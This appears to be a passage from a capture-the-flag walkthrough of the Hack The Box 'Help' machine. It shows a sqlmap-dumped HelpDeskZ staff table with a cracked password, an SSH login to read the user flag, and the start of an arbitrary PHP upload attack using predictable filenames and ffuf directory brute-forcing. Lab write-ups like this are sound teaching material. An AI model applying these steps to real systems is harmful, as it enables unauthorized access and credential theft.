 Reviewing the output of the <mark>sqlmap</mark> dump, we find a password <mark>Welcome1</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[~/…/output/help.htb/dump/support]
└─$ cat staff.csv   
id,email,login,avatar,admin,status,fullname,password,timezone,username,signature,department,last_login,newticket_notification
1,support@mysite.com,1547216217,NULL,1,Enable,Administrator,d318f44739dced66793b1a603028133a76ae680e (Welcome1),<blank>,admin,"Best regards,\r\nAdministrator","a:1:{i:0;s:1:""1"";}",1543429746,0
{% endhighlight %}

#### Getting a  shell

We try to <mark>ssh</mark> using different usernames and the user <mark>help</mark> works. We retrieve the user flag.

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/help]
└─$ ssh help@10.10.10.121

<SNIP>

help@help:~$ cat user.txt
7f1f3f**************************
{% endhighlight %}

### Alternative way - Arbitrary file upload

<mark>HelpDeskZ</mark> allows the upload of files with the .php extension, however their filenames get obfuscated when they are uploaded. The obfuscation is predictable as it is using the following pattern:

{% highlight shell %}
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
{% endhighlight %}

The new filename is an MD5 hash of a filename concatenated with current time, then the extension is applied.

We also need to know a directory where uploaded files are saved. Before, we used <mark>ffuf</mark> to brute force the directories and the scan results revealed <mark>/support/uploads</mark>. Let’s search for the full path.

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/help/scans]
└─$ ffuf -u http://help.htb/support/uploads/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -ic

<SNIP>

articles                [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 29ms]
tickets                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 35ms]
{% endhighlight %}

We can assume it is the <mark>/support/uploads/tickets</mark>, as we upload the files using a ticket form.
